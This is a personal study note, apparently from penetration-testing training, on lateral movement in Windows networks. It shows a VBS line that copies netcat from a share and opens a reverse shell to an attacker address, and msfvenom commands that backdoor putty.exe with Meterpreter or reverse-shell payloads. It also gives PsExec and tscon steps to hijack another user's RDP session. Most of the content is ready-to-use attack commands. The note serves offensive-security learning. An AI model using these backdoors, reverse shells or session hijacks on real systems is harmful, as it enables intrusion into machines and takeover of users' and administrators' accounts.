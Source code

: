 2a. Abuse User Behaviour

Take advantage of user actions to gain further access to machines in the network

# Abusing Writable Shares

If common shares are writable, attacker can plant specific files to force users into executing any arbitrary payload and gain access to their machines

1.  E.g. a shortcut to a script / executable file hosted on network share - edit the Target to whatever payload you have on the share
2.  If it is an executable that can be executed in each machine, we can backdoor the executable to force users to execute payloads we want

- When a user opens the shortcut / executable on their workstation, the EXE will be copied from server to its <ins>**%temp%**</ins> folder and executed. Therefore any payload run will be executed in the context of the final user's workstation + logged-in account.

## .vbs scripts Backdoor

If the shared resource is a VBS script, we can put a copy of nc64.exe on the same share and inject the following code to:

### Copy netcat and send a reverse shell back to Kali

`CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True`

## Backdooring .exe Files

We can inject a backdoor inside a shared executable file in the share. E.g. say **putty.exe** is the shared executable, we can download it and then call msfvenom

### For Meterpreter multi/handler shell

`msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe`

### For normal netcat reverse shell

> msfvenom -a x64 --platform windows -x putty.exe -k -p windows/shell\_reverse\_tcp lhost=&lt;attacker_ip&gt; lport=4444 -b "\\x00" -f exe -o puttyX.exe

# RDP Hijacking

When a user (i.e. Administrator) connects to machine, and closes client instead of logging off.

**REQUIRES SYSTEM PRIVILEGES (on Windows Server 2016 or earlier)**

**Step 1: Use PsExec to get System level privilege**

> `PsExec64.exe -s cmd.exe`

**Step 2: Query to see if there are any active RDP sessions**

> query user

![3fbc2038a75782a1abb90fe0139072b1.png](:/172f57ca6eea451286184bbb54fc8a02)

**Step 3: connect to the rdp session**

For example;

> tscon 3 /dest:rdp-tcp$6

In simple terms, the command states that the graphical session `3` owned by luke, should be connected with the  RDP  session `rdp-tcp#6`, owned by the administrator user.

**Note:** Windows Server 2019 won't allow you to connect to another user's session without knowing its password.

id: f2940b64c9b54649b95237336f33db08
parent_id: 0c2846bd3b824b53bfc522d03d0bb20b
created_time: 2022-07-13T08:33:25.213Z
updated_time: 2022-07-13T09:29:35.590Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-07-13T08:33:25.213Z
user_updated_time: 2022-07-13T09:29:35.590Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1